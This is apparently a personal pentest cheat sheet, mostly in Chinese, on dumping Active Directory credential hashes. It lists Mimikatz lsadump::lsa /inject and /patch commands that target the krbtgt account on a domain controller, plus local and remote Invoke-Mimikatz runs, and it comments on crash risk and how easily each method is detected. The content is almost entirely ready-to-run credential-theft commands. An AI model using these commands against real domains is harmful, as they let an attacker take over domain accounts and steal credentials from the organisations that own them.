

## Dumping Active Directory credentials locally (on the DC)

### Mimikatz

通过与LSA Server交互直接拿到SAM和NTDS中储存的Hash, 这种方式与读取SAM，NTDS文件拿到的信息基本一致，但直接与LSASS 交互有可能造成其crash，尤其是在域很大的情况下。

```
privilege::debug
lsadump::lsa /inject
lsadump::lsa /inject /id:502
lsadump::lsa /inject /name:krbtgt
```




```
privilege::debug
lsadump::lsa /patch 
lsadump::lsa /patch /id:502
lsadump::lsa /patch /name:krbtgt
```

/patch: 在memory中修改了samsrv.dll的逻辑(即patching)，从而获取LM/NTLM Hash

/inject: 在Lsass.exe中new了一个新的thread，除LM/NTLM Hash外还可以获取WDigest and Kerberos keys，但new thread的行为也易于被发现。


### Invoke-Mimikatz

```
Invoke-Mimikatz -Command '"LSADump::LSA /inject" exit'
Invoke-Mimikatz -Command '"LSADump::LSA /inject" exit'
```

发现使用Invoke-Mimikatz并不需要设置调试权限。。。


## Dumping Active Directory credentials remotely

### Invoke-Mimikatz

```
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords exit'-Computer ringdc-pc.ring2.com
```

